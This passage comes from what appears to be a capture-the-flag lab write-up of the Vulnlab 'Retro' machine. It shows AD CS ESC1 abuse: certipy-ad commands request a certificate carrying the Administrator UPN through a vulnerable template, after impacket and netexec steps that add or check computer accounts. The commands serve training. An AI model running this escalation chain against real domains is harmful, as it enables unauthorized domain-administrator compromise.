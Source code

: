 As we can see, we got a vulnerable certificate, ESC1. Now, we request a certificate from template “`RetroClients` (which it showed on the vulnerable certificate above)”, the User Principal Name (UPN) for Administrator account, because it is on the `Enrollment Permissions`, and we specify the *Certificate Authority (CA)*, in this case is `retro-DC-CA`, for the last.

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  certipy-ad req -u trainee@dc.retro.vl -p trainee -template 'RetroClients' -upn Administrator -ca retro-DC-CA
```

![image.png](image%2025.png)

We can not enroll a certificate, because we need a computer account (which we already have - the `banking$`). 

> *We could try to add a new computer account as trainee, since any account on the domain controller, by default, are able to create a computer account. But in this case, the user trainee exceed the quota, what is 10 by default, but here was set to 0.
`   th3g3ntl3m4n   ~/vulnlab/retro  impacket-addcomputer 'retro.vl/trainee:trainee’
   th3g3ntl3m4n   ~/vulnlab/retro  netexec ldap 10.10.100.137 -u trainee -p trainee -M MAQ`*
> 

![image.png](image%2026.png)

## *Requesting A Certificate Using A Computer Account*

Using the computer account `banking$` that we previously change the password, or we get a TGT for the account, we can request a certificate using the `certipy` tool:

```bash
   th3g3ntl3m4n   ~/vulnlab/retro  certipy-ad req -k -no-pass -template 'RetroClients' -upn Administrator -ca retro-DC-CA -target dc.retro.vl -key-size 4096
*# OBS.: You might execute the certipy command more than one time to this work*
```

![image.png](image%2027.png)
